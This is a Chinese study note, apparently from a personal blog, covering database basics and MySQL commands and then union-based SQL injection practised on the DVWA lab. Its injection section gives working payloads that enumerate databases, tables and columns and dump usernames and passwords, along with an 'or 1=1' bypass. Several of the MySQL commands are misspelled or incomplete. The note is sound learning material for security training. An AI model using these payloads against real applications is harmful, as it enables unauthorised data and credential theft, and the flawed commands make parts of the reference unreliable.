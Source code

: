 ```yaml
---
title: 数据库
date: 2023-09-04 21:54:58
---
```

# 数据库

- 关系型：与表格相似mysql，Oracle，microsoft sql server , acess
- 非关系型：分布式，不保证遵循acid原则，MongoDb、Redis、HBase

## 约束类型

1. 主键约束（primary key）：保证该字段具有非空且唯一性，一张表中只能由一个主键，主键是表中字段唯一标识
2. 非空约束（not null）：保证字段不为空
3. 唯一约束（unique）：保证该字段具有唯一性，但是可以为null
4. 外键约束（foreign key）：一个表中存在的另一个表的主键或唯一键成为此表的外键
5. 默认约束（default）：保证该字段有默认值



# Mysql

## 数据库

### 连接数据库

`mysql -u [database_name] -p [password]` 

### 查询数据库

`show database`

### 创建数据库

`create [database_name]`

### 删除数据库

`drop [database_name]`

### 进入数据库

`use [database_name]`

# 表table

### 查表

`show tables`

### 查看表描述

`desc [table_name]`

### 增删查改

- 增：`insert into 表名(键1,键2……) values(值1,值2……)`

  多组字段 `insert into 表名(key1,key2……) values(value1,value2)(value3,value4)`

-  改：`update 表名 set 键名='值' where 条件(列值)`

- 删：

  物理删除：`delete from 表名 where 条件 `  

  逻辑删除

- 查：

  `select *(列名) from 表名`

  `select 列 from 表 where 条件 `

  `select 列 from 表 by 某列 ASC(升序)/DESC（降序）`

​		`select GROUP_CONTACT(列) from 表 where`	以行形式显示查询结果

​		`select 列 from 表 order by 数字`		显示的键数量，大于现有报错，小于则正常显示

​		`select 列 from 表 limit 5 `	限制显示前5行

​	    `select 列 from 表 limit 5(偏移量)，10(显示行数) `	限制显示6-15行

​		`select 数字（其他任意内容）,数字（其他任意内容）…… `	会根据显示位输出输入内容，**数据库回显的列数固定，要满足显示位才有回显**



# SQL注入

## 注入位置

注入位置：GET,POST,HEAD头

----

字符串有单引号括上，数字无单引号

单引号可用#注释掉



## union

union 关键字，联合查询，把两个select语句合并为一条语句，显示为一个结果。

联合查询下，两个select要相同字段数量（union要求查询表的列数和字段类型一致）



`union all`将全部数据直接合并在一起

`union`对合并之后的数据去重



`information_schema`	查询字段信息

## 注入流程

1. 查询数据库类型（报错，datebase（））
2. 查库名
3. 查表名
4. 查列名
5. 获取信息

## 查数据库类型

`select * from 表名 where id='1' union select 1,database()`

## 查询数据库表内容

`0' union select 1,table_name from information_schema.tables where table_schema='dvwa`

## 查列名

`0' union select 1,group_concat(column_name) from information_schema.columns where table_name='users`

## 查信息

`0' union select user,password from users#`

## 返回所有数据

`select * from 表明 where id=1 or 1=1`
